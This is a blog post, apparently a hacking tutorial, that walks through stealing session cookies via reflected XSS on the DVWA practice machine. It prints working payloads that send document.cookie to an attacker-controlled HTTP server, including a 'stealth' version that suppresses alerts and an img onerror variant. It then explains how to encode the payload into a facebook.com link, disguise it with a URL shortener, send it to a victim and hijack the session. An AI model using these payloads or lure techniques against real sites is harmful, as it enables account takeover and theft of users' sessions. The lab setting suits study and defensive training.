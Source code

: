 ```yaml
---
layout: single
title: Stealing Cookies via XSS
excerpt: "Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user."
date: 2023-02-07
classes: wide
header:
  teaser: /assets/images/xss/XSS.jpg
  teaser_home_page: true
  icon: #/assets/images/thm.png
categories:
  - Stole
tags:
  - Web
  - XSS 
---
```


![](/assets/images/xss/banner.png)

An attacker can use XSS to send a malicious script to an unsuspecting user. The end user’s browser has no way to know that the script should not be trusted, and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site. These scripts can even rewrite the content of the HTML page.

The malicious content sent to the web browser often takes the form of a segment of JavaScript, but may also include HTML, Flash, or any other type of code that the browser may execute. The variety of attacks based on XSS is almost limitless, but they commonly include transmitting private data, like cookies or other session information, to the attacker, redirecting the victim to web content controlled by the attacker, or performing other malicious operations on the user’s machine under the guise of the vulnerable site.

## Types of XSS attacks

There are different types of XSS attacks, the most popular are:

* Reflected XSS (We will exploit this one today), which is pretty common in old websites.
* Stored XSS, which is the most dangerous one.
* Dom XSS

If you want to expand your knowledge about XSS, I recommend you to visit this [site](https://owasp.org/www-community/attacks/xss/).

## Stealing Cookies via XSS

As you may know, cookies are used in most websites to store information about the user's sessions. If we manage to retrieve a session cookie from another user, we are going to be able to impersonate him, and gain access to his account.

To achieve this, we are going to exploit Reflected XSS, to send to the victim a custom URL with a payload, that when opened by the user, it sends us his session cookie.

For this task I'm going to be using the DVWA machine, which is a Vulnerable Web Application to practice Web Attacks. If you want to replicate this exercise, you can download the ISO file of the machine [here](https://www.vulnhub.com/entry/damn-vulnerable-web-application-dvwa-107,43/).

Creds: `User:admin Password:password`

## Discover XSS

Once we are loged into the DVWA machine, we can navigate to the Reflected XSS menu in the left nav form and start testing our payloads.

Remember to set to low the seccurity level before doing nothing.

![](/assets/images/xss/security.png)

Reflected attacks are those where the injected script is reflected off the web server, such as in an error message, search result, or any other response that includes some or all of the input sent to the server as part of the request.

In order to test if the website is vulnerable to Reflected XSS we can try some javascript payloads, you can find a lot of XSS payloads on the internet, but I recommend you this [website](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection).

We find the following search box, which greets us by giving as a parameter our user name.

![](/assets/images/xss/hello.png)

Let's try to insert a basic javascript alert script, which will spawn an alert box with the content we sent between the brackets.
Payload: `<script>alert("Slayer!")</script>`

![](/assets/images/xss/vuln.png)

The payload get's executed, so we know that the webpage is vulnerable to reflected XSS, we can also notice that the payload is included in the website URL so we can modify the URL and send a custom crafted one to our victim.

If we insert the script in the URL we get the same result.

![](/assets/images/xss/vuln2.png)

## Exploiting XSS

Now we need to make a payload to retrieve the session cookie, we can use the `document.cookie` sentence with an alert to spawn an alert box with the document cookie.
`<script> alert(document.cookie)</script>`

![](/assets/images/xss/vuln3.png)

And we get the session cookie! Now is the time to make a little more complex script to send the cookies from the victim browser to the attacking machine, so we can receive them when the victim clicks on the malicious link.

For this example we will be using this payload, remember to replace the soruce.IP and PORT with your attacker configuration:

```
<script>
alert(document.cookie);
var i=new Image;
i.src="http://192.168.0.1:80/?"+document.cookie;
</script>
```

This payload will print in an alert box the document cookie, then will ask for the server to load a new image located in the attacker machine with the document cookie name, so the attacker will see a GET request with the document cookie value on his HTTP server.

![](/assets/images/xss/vuln4.png)

After submitting the request, we get the cookies in our attacker HTTP.SERVER.

![](/assets/images/xss/vuln5.png)

# Stealth Payload

The previous script we have used, spawns an alert box in the client's browser, we don't want that to happen, cause the victim will realise that something is going wrong.
We can edit our payload to create a stealthy one, which does not spawn an alert box.

```
<script>var i=new Image;i.src="http://192.168.0.1:80/?"+document.cookie;</script>
```

This script won't print nothing in the victim's browser, and we will get the same result.

We can also use the `<img>` tag instead of the `<script>` Tags:

`<img src=x onerror="this.src='http://192.168.0.21:80/?'+document.cookie; this.removeAttribute('onerror');">`

And obtain the same result.

![](/assets/images/xss/vuln6.png)

## Crafting the malicious URL.

No one will trust a URL like the following one:

`https://facebook.com/?name=%3Cimg+src%3Dx+onerror%3D%22this.src%3D%27http%3A%2F%2F192.168.0.21%3A80%2F%3F%27%2Bdocument.cookie%3B+this.removeAttribute%28%27onerror%27%29%3B%22%3E#` 

But we can use some tricks and services to short our URL so can be more legit to the victim's eyes, in my case I used this [website](https://acortar.link/shorten).

![](/assets/images/xss/url.png)

And as a result I got the following URL, which is way shorter.

![](/assets/images/xss/url2.png)

You can use several of these services to make your url look legit. Now you need to send this URL to the victim and start your HTTP.SERVER.
When the victim clicks on your link, you will get his cookies.

1 . Opening the Link as a victim:

![](/assets/images/xss/url3.png)

2 . We will get the same website as always without any alert:

![](/assets/images/xss/url4.png)

3 . The attacker retrieves the cookies:

![](/assets/images/xss/cookies2.png)

4 . The attacker changes the cookie settings in his browser.

![](/assets/images/xss/cookiesfire.png)

5 . Refresh the website:

![](/assets/images/xss/login.png)

6 . We successfully impersonate the admin session. 

There are other ways of doing this, I recommend you to try this python [script](https://github.com/lnxg33k/misc/blob/master/XSS-cookie-stealer.py) to achieve the same result!.

I hope you have learned how to perform an XSS attack, see you in the next post!.